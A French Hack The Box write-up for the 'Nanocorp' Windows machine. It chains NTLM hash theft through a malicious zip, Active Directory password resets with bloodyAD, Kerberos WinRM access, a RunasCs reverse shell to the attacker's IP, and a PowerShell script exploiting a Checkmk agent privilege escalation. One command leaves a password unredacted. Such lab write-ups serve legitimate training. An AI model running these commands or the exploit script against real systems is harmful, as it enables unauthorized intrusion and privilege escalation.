

+++
date = '2025-11-14T14:47:10+01:00'
draft = false
title = 'Nanocorp'
+++


Nanocorp est une box windows, sortie sur hack the box le 1er novembre 2025, créée par [babywyrm](https://github.com/babywyrm).  
Elle a pour thème du vol de hash NTLM, du pivot latéral via bloodhound, et l'exploitation d'une vieille version de Check_Mk.

# User.txt

## Ports ouverts :

La room possède les ports classiques LDAP + Kerberos + RPC, ainsi qu'un site web sur le port 80. On voit que celui-ci redirige à l'adresse nanocorp.htb, donc on l'ajoute à notre /etc/hosts. On ajoute aussi le domain controller, dc01.nanocorp.htb.

```sh
Nmap scan report for 10.129.227.0
Host is up, received echo-reply ttl 127 (0.037s latency).

PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Apache httpd 2.4.58 
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://nanocorp.htb/
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-11-09 02:02:19Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?     
464/tcp  open  kpasswd5?         
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?          
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl? 
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
```

D'autres ports sont présents sur la machine, notamment le port 6556 lié à un service de monitoring: check_mk.  
Néanmoins, on ne va pas s'y attarder pour l'instant.

## Site Web :

### nanocorp.htb

nanocorp.htb ne contient rien de spécial à première vue, sauf un formulaire de contact qui n'apporte pas grand chose.  
Néanmoins, dans le site de base est présent un lien vers un site de candidature : hire.nanocorp.htb

### hire.nanocorp.htb :

Sur hire.nanocorp.htb, on peut upload un zip de candidature. Celui-ci va probablement être ouvert par l'admin pour prendre le CV à l'intérieur. Après un peu de réflexion, on se dit que la seule interaction dont on est `quasi-surs`, c'est que l'administrateur va ouvrir notre zip. Il n'est pas obligé de cliquer sur les fichiers qui sont dedans.
On pense donc à cette vulnérabilité :  
- https://research.checkpoint.com/2025/cve-2025-24054-ntlm-exploit-in-the-wild/

Le meilleur poc que j'ai pu trouver en ligne est :  
- https://github.com/helidem/CVE-2025-24054_CVE-2025-24071-PoC/tree/main

A partir de ce fichier .library-ms, on crée un zip malicieux, et on l'upload. On lance un Responder et boum, l'utilisateur web_svc fait une authentification ntlm à nous. On récupère son hash, qu'on crack avec john. On obtient donc les crédentials :

```
username: web_svc
password: [REDACTED]
```

## Bloodhound

Avec un coup de bloodhound, on voit que web_svc peut s'ajouter à un groupe, et que ce groupe peut changer le password de monitoring_svc. On se met à la tâche:

```sh
bloodyAD --host 10.129.238.143 -d nanocorp.htb -u 'web_svc' -p '[REDACTED]' add groupMember S-1-5-21-2261381271-1331810270-697239744-3102 web_svc
bloodyAD --host 10.129.238.143 -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' set password 'monitoring_svc' 'Password2!'
```

---

L'authentification NTLM est désactivée sur la machine donc on récupère un TGT:  
```sh
getTGT.py -dc-ip "10.129.238.143" "nanocorp.htb"/"monitoring_svc":'Password2!'
export KRB5CCNAME="$(pwd)/monitoring_svc.ccache"
```

On voit que monitoring_svc peut PS_REMOTE, mais que comme il est dans le groupe PROTECTED_USERS, il ne peut pas PS_REMOTE par le port 5985 mais uniquement 5986, car le transfert est sécurisé.  
Le choix d'outils peut donc varier ici, winrmexec de la suite impacket est le plus simple à utiliser, sinon on peut utiliser evil-winrm-py.  
On n'oublie pas de modifier son `/etc/krb5.conf` pour ajouter le kdc de nanocorp.htb.

```sh
pip install 'evil-winrm-py[kerberos]'
evil-winrm-py -k --no-pass -i dc01.nanocorp.htb --ssl
```

---

```powershell
type user.txt
[REDACTED]
```

Première partie de faite !

# Root.txt

Dans les services présents sur la machine, on retrouve notre cher check_mk. Celui-ci est une vielle version à multiples failles, la version 2.1.0. Après un peu de recherches, on tombe sur cette CVE qui nous paraît intéressante:  
- https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-writable-files-in-checkmk-agent/

Néanmoins, on ne peut pas écrire dans le dossier `C:/Windows/Temp`. Alors que fait-on ?  

---

Et bien, si on ne peut pas écrire dans `C:/Windows/Temp` avec monitoring_svc, on pourrait essayer de le faire avec web_svc, notre user du début ?

```powershell
./RunasCs.exe web_svc [REDACTED] powershell.exe -r $NOTRE-IP:5555
```

```sh
nc -lnvp 5555
```

Et pouf patapouf, on peut écrire dans `C:/Windows/Temp` !
Après un peu de lecture de la vulnérabilité (à l'aide du site présent au dessus), on essaie un payload classique. Mais Bitdefender est présent sur la machine, on ne peut donc pas juste envoyer un payload msfvenom misérable et espérer que ça marche comme le POC.

---

Pour trouver le bon fichier .msi (Relisez bien l'exploit si vous ne savez pas de quoi je parle), on peut chercher tous les fichiers .msi associés à check_mk.  
On trouve `C:\Windows\Installer\1e6f2.msi`.  

On se fait donc un petit script `exploit.ps1` pour juste afficher le fichier root.txt.  

```powershell
param(
    [int]$MinPID = 1000,
    [int]$MaxPID = 15000,
)

$Payload = 'type "C:\Users\Administrator\Desktop\root.txt" > "C:\Windows\Temp\root_output.txt"'
$msi = "C:\Windows\Installer\1e6f2.msi"

# Spray des fichiers .cmd utilisées par check_mk

foreach ($counter in 0..1) {
    for ($processId = $MinPID; $processId -le $MaxPID; $processId++) {
        $filePath = "C:\Windows\Temp\cmk_all_$processId" + "_$counter.cmd"
        try {
            [System.IO.File]::WriteAllText($filePath, $Payload)
            Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue
        } catch {
            Write-Host "Impossible d'écrire $filePath"
        }
    }
}

Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn"
Write-Host "Root.txt written to C:/Windows/Temp/root_output.txt"
```

---

```powershell
type C:/Windows/Temp/root_output.txt
[REDACTED]
```

Et c'est la fin de la room. GG et merci d'avoir suivi !



